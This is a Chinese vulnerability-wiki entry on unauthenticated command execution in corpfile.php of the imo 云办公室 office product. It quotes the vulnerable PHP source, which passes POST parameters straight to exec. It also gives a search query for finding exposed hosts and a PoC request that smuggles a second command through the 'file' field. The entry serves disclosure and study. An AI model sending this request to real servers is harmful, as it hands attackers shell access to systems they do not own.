

# imo云办公室 corpfile.php命令执行

## 条目说明

- 对象与具体问题：imo云办公室；corpfile.php命令执行
- 版本、配置及部署条件：版本未给；PHP exec及系统命令可用
- 认证与权限前提：所列片段无认证，但全局中间件未核实
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整源片段显示command直接exec且file拼接ls，为两条可控执行路径
- POC同时写入文件，需区分直接command执行和file注入
- 请求仅端点和表单，缺版本、响应与修复信息

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

### 漏洞影响

```
imo 云办公室
```

### 网络测绘

```
app="iMO-云办公室"
```

### 漏洞复现

登录页面


漏洞文件 corpfile.php

```
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
